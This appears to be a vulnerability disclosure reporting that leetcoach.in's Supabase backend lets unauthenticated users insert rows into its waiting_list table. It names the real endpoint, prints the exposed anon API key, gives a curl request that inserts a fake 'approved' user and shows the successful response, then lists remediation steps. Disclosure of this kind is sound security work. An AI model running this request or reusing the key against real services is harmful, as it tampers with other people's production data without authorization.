 # 🛡️ Vulnerability Report: Unauthorized Data Insertion via Supabase API

### 📌 Title:  
**Insecure Supabase Configuration Allows Unauthorized Data Insertion into `waiting_list` Table**

---

### 🧠 Summary:
The Supabase backend used by `leetcoach.in` is misconfigured, allowing unauthenticated users to insert arbitrary data into the `waiting_list` table. This is due to exposed API keys with overly permissive access and the absence of proper authorization checks or row-level security (RLS).

---

### 🔍 Affected Asset:
- **API Endpoint:** `https://byteqaryxylhgalzwxpf.supabase.co/rest/v1/waiting_list`  
- **Frontend Domain:** `https://leetcoach.in`  
- **Database Table Affected:** `waiting_list`

---

### 💥 Vulnerability Type:
- Broken Access Control  
- Insecure Direct Object Reference (IDOR)  
- Excessive Permissions on `anon` API Key  
- Missing Authorization Checks  
- Potential GDPR/PII Violation

---

### ⚙️ Steps to Reproduce:

1. Use the public `anon` API key from the frontend JavaScript source or network traffic:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6ImJ5dGVxYXJ5eHlsaGdhbHp3eHBmIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NDg3MDI5NzEsImV4cCI6MjA2NDI3ODk3MX0.pV4fizKt0g93bpoonB4HtZJ9pdWTHtDWmqPXfK078rM
2. Craft the following `curl` request:
```bash
curl -s -X POST \
  -H "apikey: <anon_api_key>" \
  -H "Authorization: Bearer <anon_api_key>" \
  -H "Content-Type: application/json" \
  -H "Prefer: return=representation" \
  -d '{
    "email": "attacker@evil.com",
    "name": "H4ck3r",
    "status": "approved"
  }' \
  "https://byteqaryxylhgalzwxpf.supabase.co/rest/v1/waiting_list"
```
3. Observe a successful response:
```bash
[{
  "id": "uuid",
  "email": "attacker@evil.com",
  "name": "H4ck3r",
  "status": "approved",
  "joined_at": "...",
  "early_bird_discount": true
}]
```
---
### 📊 Impact:
1. Allows anyone to insert fake users into production databases.
2. Leads to data pollution, fraud, or privilege escalation.
3. May result in loss of trust or legal implications if sensitive data is involved.
4. No accountability since insertions are unauthenticated.
---
### 🔐 Recommended Remediation:
1. Enable Row-Level Security (RLS) on all tables.
2. Restrict anon role permissions to SELECT or use RPC-only models.
3. Move inserts behind serverless functions with authentication validation.
4. Rotate compromised API keys immediately.
5. Audit Supabase policies for other insecure configurations.
---



